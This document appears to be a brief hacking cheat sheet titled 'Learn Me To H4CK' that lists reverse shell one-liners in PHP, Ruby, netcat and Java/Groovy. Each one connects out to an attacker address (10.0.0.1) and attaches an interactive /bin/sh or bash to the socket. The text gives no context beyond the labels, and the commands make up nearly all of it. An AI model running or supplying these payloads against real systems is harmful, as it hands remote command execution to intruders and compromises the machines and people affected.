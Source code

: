 #Learn Me To H4CK:

PHP RevShell:

    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Ruby RevShell:

    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
  
Nc RevShell:

   nc -e /bin/sh 10.0.0.1 1234
  
Java RevShell:

   r = Runtime.getRuntime()
   p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
   p.waitFor()
  
  
